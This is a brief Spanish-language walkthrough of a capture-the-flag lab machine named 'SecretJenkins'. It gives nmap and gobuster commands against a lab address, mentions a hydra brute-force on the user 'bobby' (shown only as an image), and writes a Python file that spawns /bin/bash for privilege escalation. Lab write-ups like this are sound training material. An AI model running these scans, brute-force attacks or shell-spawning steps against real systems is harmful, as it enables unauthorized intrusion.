 # Maquina SecretJenkins

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,8080 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.2:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null


### Descargando el cli

![alt text](image-3.png)

Buscamos posibles usuarios:

![alt text](image-5.png)

Encontramos a:

![alt text](image-2.png)

Hacemos un ataque con hydra al usuario bobby:

![alt text](image-4.png)


### Intrusión y escalar privilegios

![alt text](image-6.png)

a shell.py lo creé de la siguiente manera:

echo "import os
os.system('/bin/bash')" > shell.py